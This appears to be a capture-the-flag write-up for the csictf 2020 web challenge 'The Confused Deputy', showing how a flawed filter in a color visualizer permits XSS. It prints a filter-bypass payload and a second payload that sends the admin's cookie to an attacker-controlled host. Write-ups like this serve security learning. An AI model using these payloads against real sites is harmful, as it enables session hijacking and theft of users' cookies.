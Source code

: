 ```yaml
---
title: The Confused Deputy
date: 2020-12-29
excerpt: "'The Confused Deputy' was a challenge in the Stego category of csictf 2020"
classes: wide
categories: csictf2020
tags:
  - csictf2020
  - XSS
  - filter-evasion
  - cookie-stealing
---
```


![img](/assets/images/ctf/csictf2020-web-theconfuseddeputy/0.png)


/admin



![img](/assets/images/ctf/csictf2020-web-theconfuseddeputy/1.png)


Let's check out the source of the color visualizer.



![img](/assets/images/ctf/csictf2020-web-theconfuseddeputy/2.png)


In the source we can see how it's setting the background color, and that it's sanitizing the input to protect against XSS. Or is it?  

I noticed in my tests that only the initial <> are being filtered out. Anything after that is fine.  

So by escaping the style set variable, we can inject our XSS payload.  

`<></style><img src=x onerror=alert(document.cookie)>`



![img](/assets/images/ctf/csictf2020-web-theconfuseddeputy/3.png)


So we have XSS, but we want to send the cookie back to us rather than alert it.  

Here is the script that I hosted on my VPS:  

![img](/assets/images/ctf/csictf2020-web-theconfuseddeputy/4.png)
And here is the new payload:



`<></style><img src=x onerror=document.location='http://REDACTED/cookie.php?c='+document.cookie>;`



So now we can pass this information through the Admin page



URL to visit: [http://chall.csivit.com:30256/view](http://chall.csivit.com:30256/view)  

Color to see: payload



![img](/assets/images/ctf/csictf2020-web-theconfuseddeputy/5.png)
